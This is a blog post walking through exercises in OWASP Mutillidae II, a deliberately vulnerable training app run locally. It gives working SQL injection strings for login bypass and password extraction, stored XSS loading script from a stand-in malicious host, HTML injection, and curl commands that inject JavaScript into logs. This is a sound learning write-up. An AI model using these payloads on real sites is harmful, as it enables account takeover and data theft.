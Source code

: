 ```yaml
---
draft: false
title: "Learning web app secuiry with OWASP Mutillidae II - part 1"
slug: "mutillidae-ii-part-1"
date: "2018-01-23T14:41:50+01:00"
categories:
  - security
  - learning
tags:
    - security
    - owasp
    - mutillidae
    - pentesting
cover:
  image: /img/2018/001/owasp_full_logo.png
  caption: OWASP logo
  style: normal
---
```

# iNSTALLATION

Run `nowasp` container:
```bash
docker run -p 8888:80 -p 3306:3306 citizenstig/nowasp
```

Go to [http://localhost:8888/](http://localhost:8888/), and build the DB.


# eXCERCICES:

## OWASP 2013

### A1 - Injection (SQL) - SQLi Extract data - User info

Submit the form with such query in the `Name` field:
```sql
admin'-- AND 'password='password'
```

Response should contain:
```html
Username=admin
Password=adminpass
Signature=g0t r00t?
```

### A1 - Injection (SQL) - SQLi Bypass authentication - Login

You can use the same query in the `Name` field:
```sql
admin'-- AND 'password='password'
```

After submitting the query you should see that you're logged in as...:
```
Logged In Admin: admin (g0t r00t?)
```

### A1 - Injection (SQL) - SQLi Insert Injection - Add to your blog


*Stored Cross-Site Scripting*
```html
<script src="http://malicious.site.com/bad.js"></script>
```
Once saved, check your browser's Network requests using e.g. Developer tools:

{{< gallery title="Stored Cross-Site Scripting" >}}
{{< figure link="/img/2017/002/OWASP-2013-A1-Add_to_your_blog-Stored_Cross-Site_Scripting.png" thumb="-thumb" size="1311x204" caption="Stored Cross-Site Scripting" >}}
{{< /gallery >}}

get MySQL version:
```sql
'+SUBSTRING(@@version,1,10)+'
```

Red herrings: queries that don't fail but don't give much info back:
{{< highlight sqk "linenos=table,hl_lines=14,linenostart=1" >}}
'+(SELECT IF(1=1,'true','false'))+'
'+(SELECT password FROM accounts WHERE username="root")+'
'+SUBSTRING((SELECT password FROM accounts WHERE username="root"),1,10)+'
'+(SELECT table_name FROM information_schema.tables WHERE table_schema = "nowasp.accounts")+'
'+(SELECT column_name FROM information_schema.columns WHERE table_schema = "nowasp.accounts")+'
'+SUBSTRING(SELECT table_name, column_name FROM information_schema.columns WHERE table_schema = "nowasp.accounts",1,50)+'
'+SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name="accounts"),1,50)+'
aaa', now()); SELECT * FROM accounts; --
aaa', IF(1=1,'true','false'));#
aaa', IF(1=1, SELECT * FROM members, 'false'));#
'+ (SELECT password FROM accounts WHERE login='admin' ) +'
'+(SELECT password FROM members WHERE login="admin")+'
'+(SELECT IF(1=1,'true','false'))+'
admin'-- AND SELECT * FROM accounts;
{{< / highlight >}}


### A1 - Injection (SQL) - SQLi Insert Injection - Register for an Account

HTMLi - 
add this to the registration signature:
```html
<CANARY={}""()'';#$--/>1
```

or you can use it to plant some XSS:
```html
<CANARY={}""()'';#$--/><script>alert("welcome");</script>
```
Then log in as newly created user and see that `1` is visible next to the user name in top menu:

{{< gallery title="HTMLi" >}}
{{< figure link="/img/2017/002/OWASP-2013-A1-Add_to_your_blog-HTMLi.png" thumb="-thumb" size="1419x559" caption="HTMLi" >}}
{{< /gallery >}}

{{< pswp-init >}}


### A1 - Injection (SQL) - SQLi Insert Injection - View Captured Data

Here's one of my favs: `Application Log Injection`:   
You can send a dummy HTTP request with `User-Agent` header containing JS:
```bash
curl "http://localhost:8888/index.php?page=register.php" -H "User-Agent: <script>alert('pwnd with Application Log Injection');</script>"  &> /dev/null
```

or abuse the fact that the `endpoint` part of the URL is interpretted and logged so that we can include JS in it:
```bash
curl "http://localhost:8888/<script>alert('query_param');</script>" &> /dev/null
```

Once you send the request, then go to the [http://localhost:8888/index.php?page=show-log.php](http://localhost:8888/index.php?page=show-log.php) the alert pop-ups will appear.

*NOTES:*

* can you create an account for `root` user???

```bash
curl "http://localhost:8888/index.php?page=capture-data.php&showhints=1" -H "PHPSESSID: 5hdie94hhe7cc50pqsbvujqkb3"
```
